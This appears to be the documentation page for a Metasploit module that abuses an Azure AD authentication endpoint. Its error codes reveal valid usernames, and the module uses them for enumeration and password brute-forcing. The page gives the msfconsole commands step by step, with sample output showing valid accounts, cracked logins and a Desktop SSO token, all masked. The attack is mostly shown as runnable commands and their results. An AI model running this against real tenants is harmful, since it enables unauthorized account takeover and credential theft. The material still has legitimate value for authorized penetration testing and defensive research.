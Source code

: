 ## Vulnerable Application

The Microsoft Azure AD service has a vulnerable endpoint that delivers an error-code based response
to specific authentication requests in XML. The endpoint, when passed the correct credentials,
will respond with a DesktopSsoToken that can be used to authenticate to Azure AD. When
the authentication is unsuccessful, the error code that is returned can be used to discover the
validity of usernames in the target tenant.
This module also reports credentials to the credentials database when they are discovered.

## Verification Steps


- [ ] Start `msfconsole`
- [ ] `use auxiliary/scanner/http/azure_ad_login`
- [ ] `set username USER_OR_FILE`
- [ ] `set password PASSWORD_OR_FILE`
- [ ] `set domain DOMAIN`
- [ ] Check output for validity of your test username(s), and password(s)


## Options

### domain

The target tenant domain to use for the username checks.

### username

Either a specific username to verify or a file with one username per line to verify.

### password

Either a specific password to attempt or a file with one password per line to verify.

## Scenarios
If a tenant's domain is known, you can use this module for username and password brute-forcing.

Specific target output replaced with *s so as not to disclose information
```msf6 > use auxiliary/scanner/http/azure_ad_login
msf6 auxiliary(scanner/http/azure_ad_login) > set username /home/kali/users.txt
username => /home/kali/users.txt
msf6 auxiliary(scanner/http/azure_ad_login) > set password /home/kali/pass.txt
pass => /home/kali/pass.txt
msf6 auxiliary(scanner/http/azure_ad_login) > set domain example.com
domain => example.com
msf6 auxiliary(scanner/http/azure_ad_login) > run

msf6 auxiliary(scanner/http/azure_ad_login) > run

[*] Running for *.*.*.*...
[-] example.com\wrong is not a valid user
[-] example.com\wrong is not a valid user
[-] example.com\wrong is not a valid user
[-] example.com\k0pak4 is not a valid user
[-] example.com\k0pak4 is not a valid user
[-] example.com\k0pak4 is not a valid user
[+] Password password is invalid but example.com\**** is valid!
[+] Password Password1! is invalid but example.com\**** is valid!
[+] Login example.com\****:****** is valid!
[+] Desktop SSO Token: *******************************************
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed```

If a tenant's domain is known, you can enumerate their usernames
    
```msf6 > use auxiliary/scanner/http/azure_ad_login
msf6 auxiliary(scanner/http/azure_ad_login) > set username /home/kali/users.txt
username => /home/kali/users.txt
msf6 auxiliary(scanner/http/azure_ad_login) > set password password
pass => password
msf6 auxiliary(scanner/http/azure_ad_login) > set domain example.com
domain => example.com
msf6 auxiliary(scanner/http/azure_ad_login) > run

[*] Running for 127.0.0.1...
[-] example.com\wrong is not a valid user
[-] example.com\k0pak4 is not a valid user
[+] Password password is invalid but example.com\**** is valid!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed```

## Version and OS
Tested against current Azure AD tenants.

## References
- https://arstechnica.com/information-technology/2021/09/new-azure-active-directory-password-brute-forcing-flaw-has-no-fix/
- https://github.com/treebuilder/aad-sso-enum-brute-spray
